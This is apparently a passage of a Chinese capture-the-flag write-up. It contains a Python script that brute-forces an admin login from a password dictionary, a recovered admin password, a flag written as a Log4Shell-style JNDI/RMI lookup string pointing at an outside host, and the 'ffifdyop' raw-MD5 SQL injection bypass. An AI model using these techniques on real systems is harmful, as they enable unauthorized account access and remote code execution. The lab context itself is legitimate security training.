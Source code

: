 ```python
    # print(response.text)
    # if response.status_code == 429:
    #     print("等待10秒")
    #     time.sleep(10)
    if response.status_code == 200:
        return
    else:
        des()
i = 0
#载入字典
with open("password.txt", "r") as f:
    dictionary = f.readlines()
while True:
    response = requests.post(url,cookies=cookie)

    # print(response.text)
    if response.status_code == 200:
        response = response.json()
        route='http://'+response["entry"]+"/login.php"
        # print(route)
        for j in range(2):
            i+=1
            # print(dictionary[i-1].strip())
            data = {"username": "admin", "password": dictionary[i-1].strip()}
            print("次数："+str(i))
            r = requests.post(route, data=data).json()
            print(r)
            if r["success"] == True:
                print(dictionary[i].strip())
                print(r)
                break
        des()
    elif response.status_code == 400:
        des()
        continue
    else:
        # print("等待1")
        # time.sleep(10)
        continue
```

admin密码ti1oLz@OhU

flag:${jnDl:rMi://ZPs27nNU9vjg7d6zgFh2EsHvYM435ATt.OA5ti1Y.COM}

这格式无敌了

## ez_md5

level1

`ffifdyop`
